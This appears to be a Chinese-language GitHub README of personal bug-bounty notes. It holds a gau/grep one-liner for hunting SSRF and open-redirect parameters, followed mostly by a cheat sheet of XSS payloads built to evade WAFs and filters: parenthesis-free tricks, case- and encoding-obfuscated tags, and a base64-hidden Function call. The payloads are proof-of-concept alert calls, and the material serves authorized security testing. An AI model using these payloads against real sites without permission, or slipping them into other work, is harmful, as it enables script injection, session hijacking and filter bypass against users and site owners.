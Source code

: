 # BugBountyNotes
简单记录下自己在挖掘SRC的一些技巧，备忘

#### 快速查找ssrf/open redirect

gau 目标网站 -s  | head -n 5000 > 目标.txt; cat 目标.txt | sort -u | grep -a -i \=http > redirects.txt

#### google hacking

用这个在线网站，香的不得了，输入特定域名，然后只需要点下方的按钮就行，不需要自己写dork：

![](images/pentest-tools.png)

#### 与时俱进的xss知识

执行一个字符串格式的js,在某些环境下可以用来绕过waf,不过都已经在js环境下了，绕过方法也就很多了

```
const CODE = 'alert(1)';
1. eval(CODE)
2. Function(CODE)()()
3. setTimeout(CODE)
4. document.write('<script>'+CODE+'</script>')
5. location = 'javascript:' + CODE;
6. import('data:text/javascript,' + CODE);
7. document.body.setAttribute('onclick', CODE); document.body .click();
8. []["filter"]["constructor"]( CODE )() 这个是2的变体，都是利用函数的构造函数来执行代码
```

一些不需要括号的payload:

`a=8,b=confirm,c=window,c.onerror=b;throw-a`

```
<script>
onload=setTimeout
Event.prototype.toString=
_=>"alert\501\51"
</script>
```

`<svg/onload=throw/**/Uncaught=window.onerror=eval,&quot;;alert\501\51&quot;>`

```
onhashchange=setTimeout;
HashChangeEvent.prototype.toString=
RegExp.prototype.toString;
location.hash=
HashChangeEvent.prototype.source=
'1/-alert\501\51/';
```

一些比较短的payload:
`<embed/src=//㎤.㋏>`

不知道怎么归类的payload:
`<A%09onmOuSeoVER%0a=%0aa=alert,a(document.domain)>xss`
`<a href=Javascript://%E2%80%A9alert(1)`

找到window对象支持的所有事件：

`Object.getOwnPropertyNames(window).filter(function(x){return x.startsWith('on')})`

一个只能在ff执行的xss payload，🐂：

`<script href=data:,alert(1) />`

一个不依赖标签的payload?：

`<brute contenteditable autofocus onfocus=alert(1)>`

试试能不能bypass?:

```<svg/OnLoad="`${prompt``}`">```

一种绕过思路：

https://blog.isec.pl/xss-fun-with-animated-svg/


看看这个：

alert(1) obfuscation by 
@aemkei
 
Object.values(this)[145].call(this, +!0);

Note from the author: This works in Chrome 80 but the index (145) of "alert" in windows might be different in other versions or browsers.

牛逼的payload:

```
Function`$${atob`YWxlcnQoMSk=`}```

解释：

Here is a quick explanation:

atob`YWxlcnQoMSk=`
// decodes to string to:
// "alert(1)"

`$${"alert(1)"}`
// results in the tag components:
// ["$", ""], "alert(1)" 

Function(["$", ""], "alert(1)")
// creates an anonymous function
// function($,) {alert(1)}s
```